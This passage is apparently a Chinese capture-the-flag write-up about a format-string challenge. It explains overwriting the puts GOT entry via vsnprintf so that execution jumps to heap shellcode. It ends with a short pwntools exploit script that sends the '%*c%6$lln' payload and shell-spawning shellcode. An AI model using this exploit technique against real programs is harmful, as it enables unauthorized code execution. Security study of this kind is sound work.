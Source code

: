 ![vsnprintf](./printf/vsnprintf.png)
在调试中首先看看我们输入的三段分别在哪个位置。
`format`做了`vsnprintf`的格式化字符串的参数。
`name`则是在堆上(题目的初始化功能给了堆读写执行的权限，所以这里考虑shellcode的可能)
`pwd`则是直接出现在栈上。
由于接下来会执行puts函数，并且`puts`函数的`got`可写，并且elf没有打开aslr，got地址固定为0x404000，所以我们将`putsgot`传入`pwd`，并且想办法将其改成堆地址以执行我们的shellcode
此时payload已经呼之欲出了，直接`%*c`来取到堆地址的值，`%6$lln`取到putsgot将其改为堆地址。

最终exp
```python
puts_got = 0x404000

io.sendlineafter(b'code',b'dbgbgtf')
io.sendlineafter(b'choice: ',b'3')
io.sendlineafter(b'format',b'%*c%6$lln')
io.sendlineafter(b'name',asm(shellcraft.amd64.linux.sh()))
io.sendlineafter(b'pwd',p64(puts_got))
```
好吧，就这样吧，主要是累了，不写哩！！！！
